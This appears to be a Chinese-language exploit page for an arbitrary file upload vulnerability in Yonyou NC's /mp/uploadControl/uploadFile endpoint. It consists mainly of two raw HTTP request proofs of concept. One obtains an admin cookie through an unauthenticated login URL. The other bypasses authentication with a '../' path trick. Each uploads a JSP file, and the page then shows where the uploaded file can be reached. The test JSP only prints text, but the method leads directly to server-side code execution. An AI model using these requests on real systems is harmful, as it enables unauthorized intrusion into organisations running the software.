



# 用友 NC uploadControluploadFile 任意文件上传漏洞



## POC 1
### 先获取 cookie：url+/mp/loginxietong?username=admin
```
POST /mp/uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0884AE37CCD3416B96C5546D03E67F10.server; mp_name=admin;JSESSIONID=F5E62B60F069DA492605F276E527A71C.server
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Insert title here</title>
</head>
<body>
    <%
        String str = "test content";
        out.println(str);
    %>
</body>
</html>
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```
## POC 2
### 绕过鉴权
```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Insert title here</title>
</head>
<body>
    <%
        String str = "test content";
        out.println(str);
    %>
</body>
</html>
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

***tips:<br>***
- **POC1需要先获取 cookie：url+/mp/loginxietong?username=admin<br>**
- **POC2可绕过鉴权**

## 漏洞复现
上传测试文件：test.jsp



**访问文件路径：域名/mp/uploadFileDir/test.jsp**

